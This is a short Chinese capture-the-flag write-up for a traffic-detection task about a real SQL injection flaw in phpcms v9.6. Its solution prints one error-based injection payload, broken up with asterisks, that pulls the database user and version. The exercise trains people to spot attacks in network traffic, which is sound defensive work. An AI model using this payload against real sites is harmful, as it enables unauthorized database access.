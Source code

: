 ## 个人赛-检测

## SQL注入


### 题目描述

某个CMS中存在的漏洞，通过抓取流量了解当前漏洞的类型

### 出题思路

 * phpcmsv9.6 真实数据库注入漏洞


### 题解

 * 在url中可以发现是一个sql注入
 * e*xp(~(se*lect%*2af*rom(se*lect co*ncat(0x6c75616e24,us*er(),0x3a,ver*sion(),0x6c75616e24))x))'
